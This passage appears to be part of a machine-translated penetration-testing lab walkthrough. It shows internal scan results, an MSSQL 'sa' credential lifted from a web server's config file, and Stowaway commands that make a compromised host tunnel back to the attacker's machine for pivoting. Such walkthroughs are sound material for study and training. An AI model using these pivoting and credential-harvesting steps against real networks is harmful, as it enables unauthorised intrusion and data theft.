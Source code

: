 ```text
[*] WebTitle: http://192.168.22.129 code:200 len:4301 title: Demonstration: JWT practice: Use axios+PHP to implement login authentication
[*] NetBios: 192.168.22.1 WORKGROUP\LIU
[*] NetBios: 192.168.22.133 WORKGROUP\12server-data1 Windows Server 2012 R2 Standard 9600
[*] NetBios: 192.168.22.129 12server-web2.ack123.com Windows Server 2012 R2 Standard 9600
```

I found that the MSSQL service exists in the `Server-Data1` service, and found the configuration information of `MSSQL` in the `C:\Hws.com\HwsHostMaster\wwwroot\www.ackmoon.com\web\HdhApp.config` file of the `Server-Web1` host.

```
192.168.22.133
sa/pass123@.com
```

![](./images/11.png)

Use `Stowaway` as a proxy and use `Navicat` to connect to the database.

```
# Attack aircraft
./macos_arm64_admin -l 9999 -s H3rmesk1t
# Springboard machine
agent.exe -c "192.168.31.206:9999" -s H3rmesk1t
```

![](./images/12.png)
